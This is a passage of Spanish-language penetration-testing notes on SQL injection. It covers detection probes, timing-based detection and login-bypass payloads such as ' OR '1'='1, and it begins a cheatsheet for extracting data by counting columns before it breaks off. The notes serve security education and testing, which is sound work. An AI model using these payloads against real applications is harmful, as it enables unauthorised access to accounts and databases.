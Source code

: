 ```SQL
%%2727
%25%27

U+02B9
U+02BA

`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP

page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```
Otra opción es identificar estas fallas mediante *Timing Attacks*, ciertos comandos como `SLEEP` o `BENCHMARK` en MySQL pueden causar un delay en la respuesta, indicando un punto de entrada.
##### Detección de DBMS (DataBase Management System)
[PATT](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification-keyword-based)
### Casos de explotación
#### Auth bypass
En los mecanismos estándar de autenticación, quien quiere autenticarse introduce un usuario y una contraseña. En el caso de que un panel de login hiciese una consulta a la DB SQL de sus usuarios para verificar que las credenciales son correctas, podríamos ver una query como esta.
```sql
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```
Si el atacante pudiera inyectar con éxito el siguiente payload, por ejemplo en el campo de usuario
```sql
' OR '1'='1
```
La query final quedaría así
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
```
Como `1=1` siempre sale `TRUE`, se estaría bypasseando la autenticación. Este caso concreto tiene un matiz ya que la respuesta tendría múltiples (todos) los usuarios, sin embargo podría sustituirse el payload por 
```sql
' or 1=1 limit 1 --
```
Para entrar como el primer usuario registrado, o podría inyectarse uno como este en caso de conocer el nombre de uno
```sql
galizaragoza ' OR '1'='1
```
##### RAW MD5 y SHA1
[PATT](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#raw-md5-and-sha1)
#### Cheatsheet para exilftración
##### #1: Sacar el número total de columnas
Inyectado el siguiente payload, podemos incrementar el número hasta que la aplicación de un error, ahí sabremos la cantidad total de columnas 
```sql
' ORDER BY 1-- -
```
##### #2: Recuperar todas las DBs
Sin concatenar; puede causar errores
```sql
```